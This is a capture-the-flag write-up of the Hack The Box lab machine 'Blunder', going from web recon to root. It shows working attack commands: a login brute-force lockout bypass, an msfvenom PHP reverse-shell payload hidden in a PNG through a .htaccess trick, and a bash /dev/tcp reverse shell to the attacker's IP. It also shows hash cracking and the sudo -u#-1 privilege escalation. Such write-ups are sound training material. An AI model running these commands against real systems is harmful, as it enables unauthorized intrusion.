


# Blunder: 10.10.10.191

## Hints

- Search for hidden directories on the website... and hidden files with common file extensions
- To get a foothold you will need two exploits, one to bypass login restrictions and one to get code execution
- Try to make a password wordlist instead of using the common options
- Moving laterally to another user involves finding a hashed password
- Privesc to root is a sudo vulnerability

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
```

Looking at the Apache version and doing a quick Launchpad search - it looks like we have an Ubuntu Focal 20.04LTS target. It is kind of strange that FTP on port 21 is reported as closed. Also ran a full port scan.

```none
nmap -p- 10.10.10.191 -v -T5
```

Didn't discover any other open ports, so looks like port 80 is the way into this machine.

## 80: Recon

Browsing to port 80, we can see a blog-like website.


Not much happening on the website, the content is quite sparse with very little information. The only thing I found from a quick browse around the site and clicking all the links was the website copyright of 2019. Started running the usual `gobuster` against the root directory of the website.

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.10.191 -o logs/gobuster_80_root_medium.log
```

The `gobuster` scan found the admin login page on the `admin` endpoint.



This gave us somewhere to start as the title reveals the name of the blog CMS, called "Bludit". The project has the usual website and [GitHub repo](https://github.com/bludit/bludit). The next step was to look at the source code and try to determine a version number to find a matching exploit. Started by cloning the repo and having a look at the source code to try to find where the version might be stored.

```none
git clone https://github.com/bludit/bludit.git
cd bludit
```

There are quite a few files in the Bludit project and finding the relevant ones is quite difficult. I started by filtering all non-PHP files, as it was unlikely to find a version number in an executed PHP file - well, less likely.

```none
find . -type f | grep -v php
```

This search still had lots of results and found a bunch of JSON files, images, and CSS files. It seemed like there were many `metadata.json` files in the `bl-plugins` directory, one for each plugin. For example:

```none
http://10.10.10.191/bl-plugins/about/metadata.json
```

Browsing to one of these files revealed what looked like the Bludit version of 3.9.2.


With this information, started looking at `searchsploit` for some matching exploits. Turns out there were some exploits that match the version of the software.

```none
└─$ searchsploit bludit         
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Bludit  3.9.2 - Authentication Bruteforce Mitigation Bypass                       | php/webapps/48746.rb
Bludit - Directory Traversal Image File Upload (Metasploit)                       | php/remote/47699.rb
Bludit 3.9.12 - Directory Traversal                                               | php/webapps/48568.py
Bludit 3.9.2 - Auth Bruteforce Bypass                                             | php/webapps/48942.py
Bludit 3.9.2 - Authentication Bruteforce Bypass (Metasploit)                      | php/webapps/49037.rb
Bludit 3.9.2 - Directory Traversal                                                | multiple/webapps/48701.txt
bludit Pages Editor 3.0.0 - Arbitrary File Upload                                 | php/webapps/46060.txt
---------------------------------------------------------------------------------- ---------------------------------
```

Looks like there is an exploit to circumvent the admin login panel lock-out restrictions. There is also an arbritrary file upload exploit, but after looking at the source code, it requires authentication - so will come back to this once we get authenticated access.

## Bypassing Authentication Locks

There is a generic `Username or password incorrect` when logging in, so it seems like there is no way to know if we have a correct username. The type of error message is not helpful when performing a password attack as we don't know if the username is correct.

At this point, I didn't have many options. I started a `feroxbuster` scan, recursively looking for a variety of common file formats. While that was running, I continued looking at the GitHub source code and trawling through the website directory listings. Finally, `ferobuster` came through with a result for the `todo.txt` file.



Now that we have a username of `fergus` we can go back to the "Authentication Bruteforce Mitigation" exploit. Having a quick look at the code seems like this script uses a modified `X-Forwarded-For` header which changes for every password attempt. Without doing too much research, it seems like the Bludit software would use this header value when logging an invalid login. Since we can change it for every authentication attempt, we can avoid getting blocked. Magic!

I started by installing the Python `pwntools` package which was required by the script.

```none
pip3 install pwntools
```

Then ran the tool and got a `UnicodeDecodeError` with the `rockyou.txt` wordlist. I have had this error before with the `rockyou.txt` wordlist as it has a few weird characters. So I modified the script to ignore errors when opening the file using `errors="ignore"`. Then run the tool again with the following command.

```none
python3 48942.py -l http://10.10.10.191/admin -u user.txt -p /usr/share/wordlists/rockyou.txt
```

After starting the Python script I let it run for a while. Password guessing on a website login form is slow work. After about 10-20 minutes I thought this might be the wrong approach. At this point, I had no idea how to proceed, so I asked for some help on the HTB discord server. I got the advice to use `cewl` to construct a wordlist based on the contents of the blog website.

```none
cewl http://10.10.10.191 > pass.txt
```

This created a wordlist with 349 entries which seemed much more manageable. Before running the script again, I noticed that I needed to set the URL to have `login.php`. This was documented in the Python script, but I missed it when first running it. After getting the password and doing some testing, the `login.php` suffix is essential to include. I modified the command to use the new `pass.txt` file and ran it.

```none
python3 48942.py -l http://10.10.10.191/admin/login.php -u user.txt -p pass.txt
```

And we got a result!

```none
[*] SUCCESS !!
[+] Use Credential -> fergus:RolandDeschain
```

Checked the credentials by authenticating with the Bludit admin panel, and we get access.


While running the [`48942.py` script](exploits/48942.py), I was casually refactoring it in the background to not require the `pwntools` library, and adhere to PEP8 (mostly). As usual, I have included the modified script with the project repo in the `exploits` folder.

## Getting Code Execution

Since we have authenticated access to the admin panel we can revisit the "Directory Traversal" exploit that we previously found. We skipped it at the time as we had no creds, but now we have creds! Following the instructions in the exploit, we need to:

1. Create a PNG with a PHP payload in it
2. Change hardcoded values in the script to our host and port
3. Run the exploit
4. Start a listener
5. Visit the target web app and open the png with the payload

Luckily, the exploit has some pretty good documentation to do all of these steps. Started by making an exploit using `msfvenom` and specifying the `raw` file type and saving it to `evil.png`.

```none
└─$ msfvenom -p php/reverse_php LHOST=10.10.14.7 LPORT=9001 -f raw -b '"' > evil.png
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 4046 (iteration=0)
php/base64 chosen with final size 4046
Payload size: 4046 bytes
```

The next step is kind of weird. After decoding the command, we are wrapping the `evil.png` file contents in PHP tags.

```none
echo -e "<?php $(cat evil.png)" > evil.png
```

The next step is to make an `.htaccess` file to turn off the `RewriteEngine` and modify the application type for PNG files.

```none
echo "RewriteEngine off" > .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
```

After making these files, we can simply run the script.

```none
python3 48701.py
```

Based on the script documentation, we need to visit the uploaded image which will trigger the payload and connect back to our machine.

```none
http://10.10.10.191/bl-content/tmp/temp/evil.png
```

And we get the callback.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.191] 35094
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Success! We have a shell as the `www-data` user.

## Privesc: `www-data` to `user`

The first thing I notice is that we had a terrible shell. This seems to be how we made the `msfvenom` payload. I kept trying to get a better shell, such as using the Python spawn TTY method, which wasn't working. After a bit of research and some more thinking... I finally figured out, I could create a simple bash reverse shell

```none
bash -c "bash -i >& /dev/tcp/10.10.14.7/9001 0>&1"
```

Usually, I would do this as a reverse shell in a PHP payload and had never done it after getting a shell. New thing learned for today! Started running linpeas in the background, and continued my manual enumeration. Apart from finding a list of users on the system, linpeas didn't help me much.

```none
cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
temp:x:1002:1002:,,,:/home/temp:/bin/bash
```

Having a quick look at the users, I can see that `hugo` has the user flag. I started looking for unusual files in the home directories, then moved on to looking at the web app files. There is a `users.php` file with user information and hashed passwords.

```none
cat /var/www/bludit-3.9.2/bl-content/databases/users.php
```

I tried to crack both passwords with [Crackstation](https://crackstation.net/) but couldn't get results for either password. After a bit more digging, I found that there were two versions of the `bludit` software. The other version `3.10` had the same `user.php` file which had a different user and hash! The user was `hugo` and had a different hash value of: `faca404fd5c0a31cf1897b823c695c85cffeb98d`. I loaded up Crackstation again and got a result of `Password120`. After this, it was easy to switch to the `hugo` user.

```none
www-data@blunder:/dev/shm$ su - hugo
su - hugo
Password: Password120
id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
wc -c user.txt  
33 user.txt
```

Success! The user flag!

## Privesc: `hugo` to `root`

Started the privesc with some manual enumeration and found an interesting `sudo` entry.

```none
hugo@blunder:~$ sudo -l 
Password: 
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

I didn't read the output thoroughly enough when I first checked it and tried to get a shell as bash.

```none
hugo@blunder:~$ sudo /bin/bash
Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.
```

I thought that would be too easy! Looking up the `sudoers` file configuration, this specific setting means that `hugo` can run `/bin/bash` as any user, except `root`, indicated by the `!` bang character meaning not. Doing a quick search for `(ALL, !root) /bin/bash` gives some interesting results - and a suitable exploit! The [sudo 1.8.27 - Security Bypass on exploitdb](https://www.exploit-db.com/exploits/47502) article has some documentation and simple commands to use this exploit.

> Sudo doesn't check for the existence of the specified user id and executes the arbitrary user id with the sudo priv. The bug is fixed in sudo 1.8.28.

Checking the `sudo` version on the target system shows we have a vulnerable software version.

```none
hugo@blunder:~$ sudo -V
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```

I simply followed the commands provided in the exploit documentation to get a shell as the `root` user.

```none
hugo@blunder:~$ sudo -u#-1 /bin/bash
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/home/hugo# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Directory scan common file extensions! I seem to always miss `txt` files, add this to my methodology.
- Remember to check website source files thoroughly! There may be information in some weird places! Like different software versions.

## Useful Resources

- [HackTheBox - Blunder by ippsec](https://www.youtube.com/watch?v=G5iw8c2vXuk)
- [HTB: Blunder by 0xdf](https://0xdf.gitlab.io/2020/10/17/htb-blunder.html)
